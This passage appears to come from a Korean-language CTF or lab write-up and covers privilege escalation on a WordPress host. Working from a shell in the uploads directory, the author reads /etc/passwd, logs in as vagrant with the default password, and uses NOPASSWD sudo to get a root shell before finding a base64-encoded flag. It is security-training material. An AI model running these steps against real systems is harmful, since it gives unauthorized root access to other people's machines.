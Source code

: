 
<div style="page-break-after: always;"></div>

---

### 권한 상승

- 권한 상승을 시도하기 위해 `/etc/passwd`의 유저 목록을 확인했다.

```
<ress/assets/fonts/blog/wp-content/uploads/2025/08$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash

[ . . . ]

vagrant:x:1000:1000:,,,:/home/vagrant:/bin/bash
ubuntu:x:1001:1001:Ubuntu:/home/ubuntu:/bin/bash
mysql:x:112:117:MySQL Server,,,:/nonexistent:/bin/false
james:x:1002:1002:James M Brunner,,,:/home/james:/bin/bash
```

- vagrant는 데브옵스 기술로서, 가상 머신이나 컨테이너를 만들 때 자주 사용된다. 잘못 설정된 경우 기본 계정 정보인 `vagrant:vagrant` 이름 + 비밀번호가 사용될 때가 있다. vagrant 로컬 유저의 경우 프로그램 설치나 운영체제 수정을 위해 루트 권한이나, 높은 권한을 가지고 있는 경우가 많기 때문에 먼저 vagrant 유저로의 권한 상승을 시도했다.

```
<ress/assets/fonts/blog/wp-content/uploads/2025/08$ su vagrant
Password: 
<ress/assets/fonts/blog/wp-content/uploads/2025/08$ id
uid=1000(vagrant) gid=1000(vagrant) groups=1000(vagrant)
```

- 이후 `sudo -l` 명령어로 sudo 권한을 확인한후 루트 유저로의 권한 상승에 성공했다.

```
ress/assets/fonts/blog/wp-content/uploads/2025/08$ sudo -l
Matching Defaults entries for vagrant on
    ip-172-31-211-24.ap-northeast-2.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User vagrant may run the following commands on
        ip-172-31-211-24.ap-northeast-2.compute.internal:
    (ALL) NOPASSWD: ALL
<ress/assets/fonts/blog/wp-content/uploads/2025/08$ sudo /bin/bash
<ress/assets/fonts/blog/wp-content/uploads/2025/08# id 
uid=0(root) gid=0(root) groups=0(root)

```

<div style="page-break-after: always;"></div>

---

#### 플래그..

- 이후 취약점을 더 찾아 보기 위해 루트유저의 홈디렉토리의 `root.txt` 파일을 발견하고 base64로 인코딩 되어 보여 디코딩을 시도했는데, 플래그를 발견했다.
